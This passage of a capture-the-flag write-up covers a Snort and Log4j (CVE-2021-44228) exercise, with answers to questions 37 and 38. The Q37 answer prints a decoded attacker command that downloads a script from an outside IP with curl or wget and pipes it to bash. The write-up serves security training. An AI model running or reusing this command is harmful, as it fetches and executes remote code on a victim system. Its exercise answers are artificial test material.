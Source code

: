 **Answer: 62808**  

---

**Q37. Decode the encoded command. What is the attacker's command?**  
Decoded using CyberChef, the command was:  

```bash
(curl -s 45.155.205.233:5874/162.0.228.253:80 || wget -q -O- 45.155.205.233:5874/162.0.228.253:80) | bash
```
![Screenshot](Snort1CTFimg/snort1ch_37ans.png)  

**Answer:**
`(curl -s 45.155.205.233:5874/162.0.228.253:80 || wget -q -O- 45.155.205.233:5874/162.0.228.253:80) | bash`  


---

**Q38. What is the CVSS v2 score of the Log4j vulnerability?**  
Looked up CVE-2021-44228 on NVD and checked CVSS v2 metrics.  
![Screenshot](Snort1CTFimg/snort1ch_38ans.png)  
